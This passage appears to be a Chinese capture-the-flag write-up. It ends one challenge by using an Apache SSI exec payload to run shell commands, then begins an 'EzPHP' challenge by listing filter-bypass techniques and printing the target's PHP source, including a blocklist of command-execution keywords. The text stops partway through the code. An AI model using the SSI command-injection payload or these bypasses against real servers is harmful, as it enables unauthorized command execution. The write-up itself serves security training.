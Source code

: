 随便登陆一下

![image-20220308234010421](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203082340564.png)

看到返回了内容写进去的文件路径

有个`shtml`,想到Apache SSI 远程命令执行漏洞，参考https://cloud.tencent.com/developer/article/1540513



直接命令执行

```
<!--#exec cmd="ls ../" -->
```

![image-20220308234214349](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203082342488.png)

查flag也是一样的

## EzPHP

###  考点

1. 绕过QUERY_STRING的正则匹配
2. 绕过preg_match
3. 绕过$_REQUEST的字母匹配
4. file_get_contents绕过
5. sha1强比较绕过
6. create_function()注入

###  wp

###  1.主页

F12,有个编码，但是不是`base64`,是`base32`，这个比较少见了。

![image-20220308191015591](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203081910687.png)



解码后直接访问URL`/1nD3x.php`

得到代码，好多过滤，确实有点麻

```
 <?php
highlight_file(__FILE__);
error_reporting(0); 

$file = "1nD3x.php";
$shana = $_GET['shana'];
$passwd = $_GET['passwd'];
$arg = '';
$code = '';

echo "<br /><font color=red><B>This is a very simple challenge and if you solve it I will give you a flag. Good Luck!</B><br></font>";

if($_SERVER) { 
    if (
        preg_match('/shana|debu|aqua|cute|arg|code|flag|system|exec|passwd|ass|eval|sort|shell|ob|start|mail|\$|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|read|inc|info|bin|hex|oct|echo|print|pi|\.|\"|\'|log/i', $_SERVER['QUERY_STRING'])
        )  
        die('You seem to want to do something bad?'); 
}

if (!preg_match('/http|https/i', $_GET['file'])) {
```